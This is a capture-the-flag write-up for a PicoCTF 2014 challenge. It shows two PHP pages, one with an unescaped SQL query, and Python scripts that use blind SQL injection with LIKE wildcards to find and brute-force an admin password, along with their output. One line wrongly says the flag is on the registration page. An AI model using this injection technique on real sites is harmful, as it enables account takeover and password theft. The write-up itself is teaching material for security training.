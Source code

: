 ### Injection4

This challenge comes from PicoCTF 2014. This is a good example to show "when sql injection is possible" and how to exploit it according to the requirement.
We hav two PHP web pages, ```login.phps``` and ```register.phps```. The following are their source codes respectively:
```
 <?php
include "config.php";
$con = mysqli_connect("localhost", "sql4", "sql4", "sql4");
$username = mysqli_real_escape_string($con, $_POST["username"]);
$password = mysqli_real_escape_string($con, $_POST["password"]);
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) === 1) {
  $row = mysqli_fetch_array($result);
  echo "<h1>Logged in!</h1>";
  echo "<p>Your flag is: $FLAG</p>";
} else {
  echo "<h1>Login failed.</h1>";
}
?> 
```

```
 <?php
include "config.php";
$con = mysqli_connect("localhost", "sql4", "sql4", "sql4");
$username = $_POST["username"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 0) {
  die("Someone has already registered " . htmlspecialchars($username));
}

die("Registration has been disabled.");
?> 
```
```login.phps``` seems very secure: the user inputs are escaped as well as enclosed in quotation ```'```. On the other hand, on ```register.phps```,
```$username``` is NOT escaped. 
Since the flag is on ```register.phps```, what we have to do is clear: find a set of username and password registered in the table ```users```.

For the username, it is actually a guess. A likely username is ```admin```, when we ```POST``` it to ```register.phps```, it returns ```Someone has already registered admin```.
So now we find the password of admin!

This is where bruteforcing comes in. As we have used previously, there is an option for SQL queries called ```LIKE```. We can append an ```AND``` clause followed by ```password LIKE ``` so that only when we match both the username and password,
```register.phps``` returns ```Someone has already registered admin```. For the use of the special characters ```_``` and ```%```, refer to the previous injeciton writeup.

Then it's the matter of writing the script. This time we make ```POST``` request. 

What is reasonable to do is to first find the length of the password, so that we know when to stop. The following is a snippet that does exactly that.
```
h = HTMLParser()
begin = 'admin\' AND password LIKE \"'

##identify the length 
count = 1
while True:
    query = begin + '_'*count + "\"" + '-- '
    payload = {'username': query}
    resp = requests.post(url,data=payload)
    print 'count = ' + str(count) + ' :' + h.unescape(resp.text)
    if("Someone has already registered admin" in resp.text):
        print 'The length of the password is = ' + str(count)
        break
    count = count + 1
```
Recall that one ```_``` matches one character in the password. So whenever the number of ```_``` matches the length of the password, the SQL query succeeds!
The output seems as follows:
```
...

count = 24 :Registration has been disabled.
count = 25 :Registration has been disabled.
count = 26 :Registration has been disabled.
count = 27 :Someone has already registered admin' AND password LIKE "___________________________"--
The length of the password is = 27
```
So the length of the password is 27!

Now we can proceed to the next step, which is bruteforce the exact password. The concept is very simple: given a set of possible characters, just try out every combination! What makes it easy however is the ```%``` character. Since it matches to ANY string, we can reduce the search space
character by character! See the code below:
```
confirmed = ''
for char in itertools.cycle(passchars):
    query = begin + confirmed + char + '%' + "\"" + '-- '
    payload = {'username': query}
    resp = requests.post(url,data=payload)
    
    if("Someone has already registered admin" in resp.text):
        confirmed += char
        print h.unescape(resp.text)
        if len(confirmed) == 27:
            print 'password = ' + confirmed
            break
```
And the output is this (note that it takes about 10 min to brute force):
```
Someone has already registered admin' AND password LIKE "y%"--
Someone has already registered admin' AND password LIKE "yo%"--
Someone has already registered admin' AND password LIKE "you%"--
Someone has already registered admin' AND password LIKE "youl%"--
Someone has already registered admin' AND password LIKE "youll%"--
Someone has already registered admin' AND password LIKE "youlln%"--
Someone has already registered admin' AND password LIKE "youllne%"--
Someone has already registered admin' AND password LIKE "youllnev%"--

...

Someone has already registered admin' AND password LIKE "youllneverguessthispassw%"--
Someone has already registered admin' AND password LIKE "youllneverguessthispasswo%"--
Someone has already registered admin' AND password LIKE "youllneverguessthispasswor%"--
Someone has already registered admin' AND password LIKE "youllneverguessthispassword%"--
password = youllneverguessthispassword
```
Indeed, the password is 27-characters long! If we log in as ```admin``` using ```password = youllneverguessthispassword```, we get the flag.
```
Logged in!

Your flag is: whereof_one_cannot_speak_thereof_one_must_be_silent
```

